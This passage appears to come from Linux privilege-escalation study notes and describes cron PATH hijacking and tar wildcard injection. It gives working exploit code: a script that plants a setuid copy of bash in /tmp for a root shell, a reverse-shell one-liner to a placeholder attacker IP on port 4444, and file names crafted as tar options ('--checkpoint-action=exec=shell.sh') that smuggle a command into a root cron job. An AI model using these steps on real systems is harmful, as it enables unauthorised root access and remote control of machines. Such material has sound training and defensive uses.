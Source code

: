suppose above one is the output of `cat /etc/crontab`

* Here `PATH` variable includes `/home/marcus` while the original `overwrite.sh` is listed without full path and is present somewhere else.
* We can create a new `overwrite.sh` at `/home/marcus` if its writable.
* Crontab will execute our `overwrite.sh` because `/home/marcus` comes first in `PATH` variable.

Exploit:

/home/user/overwrite.sh

```bash
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
chmod +x /home/user/overwrite.sh
```

```bash
/tmp/rootbash -p
```

---

## 9. Cron Jobs – Wildcards (`*`)

```bash
cat /usr/local/bin/compress.sh
```

`compress.sh` isn't writable in this scenario.
Content:

```bash
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

**NOTE:** tar has command line options that let you run other commands as part of a checkpoint feature.

Exploit:

* `shell.sh` is the script to be executed.

```bash
#!/bin/bash
bash -i >& /dev/tcp/OUR-IP/4444 0>&1
```

* Make `shell.sh` executable.

```bash
chmod +x shell.sh
```

* Create these two files in same directory.

```bash
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.sh
```
